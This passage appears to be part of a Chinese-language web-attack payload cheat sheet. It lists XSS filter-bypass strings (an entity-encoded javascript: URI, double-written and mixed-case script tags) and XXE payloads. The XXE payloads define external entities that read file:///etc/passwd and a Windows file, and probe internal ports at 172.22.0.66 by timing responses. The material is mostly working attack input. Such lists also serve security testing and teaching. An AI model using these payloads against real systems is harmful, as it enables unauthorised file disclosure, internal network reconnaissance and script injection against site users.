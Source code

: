 ```
&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#41;
```

### 双写

```javascript
<scrscriptipt>alert('XSS')</scrscriptipt>
<scr<script>ipt>alert('XSS')</scri</script>pt>
```

### 大小写

```javascript
<ScRIpT>alert('XSS')</SCriPt>
```

------





## XXE

### basic

```
<?xml version="1.0" encoding="UTF-8"?>
<site>114514</site>
```

### Windows

```xml-dtd
<?xml version="1.0"?>
<!DOCTYPE ANY [<!ENTITY content SYSTEM "file:///C://a.txt">]>
<name>&content;</name>
```

### Linux

```xml-dtd
<?xml version="1.0"?>
<!DOCTYPE ANY [<!ENTITY content SYSTEM "file:///etc/passwd">]>
<name>&content;</name>
```

### 端口探测

响应速度快则有该端口, 慢则没有

```xml-dtd
<?xml version="1.0"?>
<!DOCTYPE ANY [<!ENTITY content SYSTEM "http://172.22.0.66:80/">]>
<name>&content;</name>
```
